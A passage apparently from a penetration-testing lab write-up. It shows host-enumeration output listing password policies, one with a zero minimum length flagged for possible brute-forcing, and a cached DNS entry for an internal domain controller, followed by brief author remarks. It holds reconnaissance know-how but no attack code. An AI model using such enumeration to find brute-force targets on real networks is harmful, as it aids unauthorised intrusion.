ÉÍÍÍÍÍÍÍÍÍ͹ Password Policies
È Check for a possible brute-force 
    Domain: Builtin
    SID: S-1-5-32
    MaxPasswordAge: 42.22:47:31.7437440
    MinPasswordAge: 00:00:00
    MinPasswordLength: 0
    PasswordHistoryLength: 0
    PasswordProperties: 0
   =================================================================================================

    Domain: ZSM-SVRCSQL02
    SID: S-1-5-21-2734290894-461713716-141835440
    MaxPasswordAge: 42.00:00:00
    MinPasswordAge: 1.00:00:00
    MinPasswordLength: 7
    PasswordHistoryLength: 24
    PasswordProperties: DOMAIN_PASSWORD_COMPLEX
   =================================================================================================

ÉÍÍÍÍÍÍÍÍÍ͹ DNS cached --limit 70--
    Entry                                 Name                                  Data
    zph-svrcdc01.internal.zsm.local       ZPH-SVRCDC01.internal.zsm.local       192.168.210.16
```

I don't see that much new here so i guess we can move forward for now?

lastly i checked the only DB and table available but not much come out so far!



&nbsp;

&nbsp;